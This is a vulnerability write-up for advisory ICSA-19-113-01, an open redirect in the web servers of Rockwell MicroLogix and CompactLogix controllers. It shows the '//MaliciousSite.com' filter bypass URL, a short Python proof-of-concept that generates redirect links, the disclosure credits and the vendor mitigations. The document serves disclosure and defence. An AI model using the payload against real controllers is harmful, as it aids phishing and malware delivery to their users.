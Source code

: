 # Description of ICSA-19-113-01

The following Rockwell Automation products were discovered to contain an open redirect vulnerability:

* MicroLogix 1400 Controllers
* Series A, All Versions
* Series B, v15.002 and earlier
* MicroLogix 1100 Controllers v14.00 and earlier
* CompactLogix 5370 L1 controllers v30.014 and earlier
* CompactLogix 5370 L2 controllers v30.014 and earlier
* CompactLogix 5370 L3 controllers (includes CompactLogix GuardLogix controllers) v30.014 and earlier

# Open Redirect Vulnerabilities

An Open Redirect vulnerability occurs when a web application accepts user-supplied input in the URL that contains a link to an external website, redirecting the user's browser to a malicious website. 
The Open Redirect vulnerability discovered in various Rockwell Controllers is no exception to this rule. Each controller runs a web server that displays diagnostics about that specific PLC. There also exists a URL parameter that enables the PLC to redirect the user’s browser:

```
http://192.168.1.12/index.html?redirect=/localpage
```

The redirect parameter intends to send users to another page located on the PLCs website. Under normal circumstances, the PLC would filter out redirects to an external website, so if you tried the following:

```
http://192.168.1.12/index.html?redirect=/externalsite
```

it would filter out the request and prevent the browser from being sent to a malicious site. However, the PLCs redirect filter does not account for the various ways to enter a URL like so:

```
http://192.168.1.12/index.html?redirect=//MaliciousSite.com
```

From the browser’s perspective, the second ‘/’ character will be ignored, making it a valid URL yet bypassing the PLCs filter. The browser will then be redirected to the website provided after the second ‘/’. This type of client-side attack can aid in phishing campaigns to setup browser exploits or install malware.

# Proof of Concept Exploit

```
import argparse

parser = argparse.ArgumentParser(description='Callback Script')
parser.add_argument('-r', '--redirect', required=True, dest="redirect", action='store', help='Redirect Destination IP')		
parser.add_argument('-p', '--plc', required=True, dest="plc", action='store', help='Rockwell Controller IP')	
args = parser.parse_args()  #Parse Command Line Arguments

print("Generating link...")
print("http://"+args.plc+"/index.html?redirect=//"+args.redirect)

```

# Disclosure

The vulnerabilities were immediately reported to the National Cybersecurity and Communications Integration Center (NCCIC) by security researchers Josiah Bryan and Geancarlo Palavicini. You can find the full advisory [here](https://www.cisa.gov/uscert/ics/advisories/ICSA-19-113-01).

# Mitigation

Rockwell Automation has released an update for each of the affected devices. Rockwell also recommends users take defensive measures to minimize the risk of exploitation of this vulnerability. Specifically, users should:

* Update to the latest available firmware revision that addresses the associated risk.
* Use trusted software, software patches, anti-virus/anti-malware programs, and interact only with trusted websites and attachments.
* Minimize network exposure for all control system devices and/or systems, and ensure that they are not accessible from the Internet.
* Locate control system networks and devices behind firewalls and isolate them from the business network.
* When remote access is required, use secure methods such as virtual private networks (VPNs), recognizing that VPNs may have vulnerabilities and should be updated to the most current version available. VPN is only as secure as the connected devices.
* Employ training and awareness programs to educate users on the warning signs of a phishing or social engineering attack.
